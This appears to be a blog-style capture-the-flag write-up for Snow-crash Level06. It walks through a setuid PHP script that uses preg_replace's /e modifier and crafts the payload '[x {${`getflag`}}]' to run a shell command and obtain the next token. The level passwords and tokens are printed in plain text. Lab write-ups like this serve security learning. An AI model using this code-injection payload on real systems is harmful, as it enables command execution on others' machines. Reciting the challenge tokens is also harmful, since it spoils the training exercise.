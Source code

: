 ```yaml
---
title:  "Snow-crash Level06"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - [CyberSecurity,Github, Git]

toc: true
toc_sticky: true

date: 2024-2-14
last_modified_at: 2024-02-14
categories: cyber-security
---
```


#### 1. The password of `Level06` is the token that got from `Level05`.

```
viuaaale9huek52boumoomioc
```
#### 2. So, try login to Level06 with the password we got from Level05 and try to put the command `ls`. We can see the file `Level06`. 
```bash
level05@SnowCrash:/var/mail$ su level06
Password:
level06@SnowCrash:~$ ls -la
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```

We can see the level06.php file, so I tried to execute it first. Nothing came out but we verified that this php file worked correctly.

```bash
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
#### 3. We can convert this to readable at the site below.

[Online PHP beautifier](https://beautifytools.com/php-beautifier.php)

```bash
#!/usr/bin/php
<?php
function y($m) # Define function y
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)  # Define function x
{
    $a = file_get_contents($y); 
    #Read the contents of file $y
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    # Replace [x ...] with the result of calling function y on the captured group (\2)
    $a = preg_replace("/\[/", "(", $a); # Replace [ with (
    $a = preg_replace("/\]/", ")", $a); # Replace ] with )
    return $a;
}
$r = x($argv[1], $argv[2]); #all function x with command line arguments
print $r; #Print the result
?>
```

If we break down in to the php code,

* Function y($m):

    * Replaces dots (.) with spaces (' x ') and replaces '@' with the string 'y' in the string $m, then returns the result.

* Function x($y, $z): takes two inputs

    * Reads the contents of the file specified by $y and stores it in $a.
    
    * /(\[x (.*)\])/e : The given regular expression is a regular expression used in PHP. It matches a string starting with "x" inside square brackets. The part inside the square brackets is a capture group represented by the pattern (.\*), which matches any string.

    * /e: This flag evaluates the matched pattern and returns it. It is a special flag used only in PHP, allowing the matched pattern to be evaluated as PHP code.

    * Replaces remaining [ and ] characters with ( and ), respectively.

    * Returns the result.

* Variable $r:

    * Stores the result of the x() function call.

* Output:

    * Prints the result.

In summary, this regular expression finds the pattern [x ...] in a string and evaluates it as PHP code, enabling the string to be transformed into dynamically executable PHP code.

<details>
<summary> Example Regex (Regular expression) </summary>
<br><br>
For example, consider the following string:
<br><br>

<pre>
<code>
[x echo "Hello, world!"]
</code>
</pre>
Suppose you want to find the [x ...] part in this string and execute PHP code inside it.
<br><br>
In this case, you can use the regular expression /(\[x (.*)\])/e, and with this regular expression, you can use the preg_replace() function in PHP as follows:

<pre>
<code>
$string = "[x echo \"Hello, world!\"]";
$result = preg_replace('/(\[x (.*)\])/e', "$2", $string);
echo $result; // Output: Hello, world!
</code>
</pre>
<br>
In the above code, $2 represents the second capture group, which corresponds to the PHP code inside the [x ...] part. <br><br>Therefore, the preg_replace() function finds the matching pattern [x ...], evaluates and executes the PHP code inside it (in this case, echo "Hello, world!"), and returns the result.<br><br> 
In this case, it returns the string "Hello, world!"."


</details>

#### 4. We want to modify the input string `[x (anything here)]` so that the second capture group in the regular expression will be replaced by `${'getflag'}`. This way, when the function y() is called, it will execute the command getflag.

#### 5. So, our modified input string should be [x ${'getflag'}]. This will allow us to use variable interpolation to execute the getflag command within the y() function.

```bash
level06@SnowCrash:~$ echo '[x {${`getflag`}}]' > /tmp/getflag
level06@SnowCrash:~$ cat /tmp/getflag
[x {${`getflag`}}]
```

#### 6. And we can get the password as below.

```bash
level06@SnowCrash:~$ ./level06 /tmp/getflag
PHP Notice:  Undefined variable:
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
 ```

 ####  7. We got a token for level07

 ```bash
 Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 ```